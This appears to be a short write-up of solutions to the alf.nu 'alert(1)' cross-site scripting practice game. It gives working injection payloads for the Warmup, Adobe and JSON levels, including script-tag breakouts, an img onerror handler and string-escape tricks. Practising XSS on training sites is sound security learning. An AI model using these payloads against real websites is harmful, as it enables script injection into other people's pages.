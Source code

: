 # URL :- `https://alf.nu/alert1`

![image](https://user-images.githubusercontent.com/60841283/151819417-31026856-f5d3-4f5c-8adb-6392016f05de.png)

Payload for Warmup 
```javascript
</script><script>alert(1)</script>
```
Other Payloads that work
```javascript
</script><img src=x onerror=alert(1);>
");alert(1,";
```

![image](https://user-images.githubusercontent.com/60841283/151821764-96b38846-08e8-4ad4-97a5-6c75e43ce86f.png)

Payload for Adobe 
```javascript
\");alert(1)//
```

![image](https://user-images.githubusercontent.com/60841283/151822972-dad0a588-ba58-49fa-890c-4e38c68b2633.png)

Payload for JSON
```javascript
</script><script>alert(1)</script>
```
Other Payloads that work
```javascript
</script><script>alert(1)//
```

